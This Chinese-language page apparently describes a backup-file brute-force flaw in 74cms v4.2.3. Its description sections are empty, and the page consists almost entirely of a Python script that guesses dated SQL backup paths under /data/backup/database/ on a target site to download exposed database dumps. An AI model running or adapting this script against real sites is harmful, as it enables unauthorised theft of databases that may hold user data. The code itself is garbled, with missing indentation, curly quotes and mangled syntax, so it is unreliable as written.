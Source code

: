 # 74cms v4.2.3 备份文件爆破

> 原文：[https://www.zhihuifly.com/t/topic/2793](https://www.zhihuifly.com/t/topic/2793)

# 74cms v4.2.3 备份文件爆破

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
# -*- coding: utf-8 -*-
-------------------------------------------------
   File Name：     74cms_MysqlBak
   Description :
   Author :       CoolCat
   date：          2019/1/5
-------------------------------------------------
   Change Activity:
                   2019/1/5:
-------------------------------------------------
"""
__author__ = 'CoolCat'

import requests

def getBak(time):

print("[running]:正在查询" + time + “是否存在备份”)

dir = time + “_1”

filename = dir + “_1.sql”

url = target + “//data/backup/database/” + dir +"/"+ filename

session = requests.Session()

headers = {“Accept”: “text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8”,

“Upgrade-Insecure-Requests”: “1”,

“User-Agent”: “Mozilla/5.0 (Android 9.0; Mobile; rv:61.0) Gecko/61.0 Firefox/61.0”,

“Connection”: “close”, “Accept-Language”: “en”, “Accept-Encoding”: “gzip, deflate”}

cookies = {“think_language”: “en”, “think_template”: “default”, “PHPSESSID”: “6d86a34ec9125b2d08ebbb7630838682”}

response = session.get(url=url, headers=headers, cookies=cookies)

if response.status_code == 200:

print(url)

exit()

if **name** == ‘**main**’:

```
global target
target = "http://www.target.com"

for year in range(2017, 2020):
    for mouth in range(1, 13):
        for day in range(1, 31):
            time = (str(year) + str('%02d' % mouth) + str('%02d' % day))
            getBak(time) 
``` 
```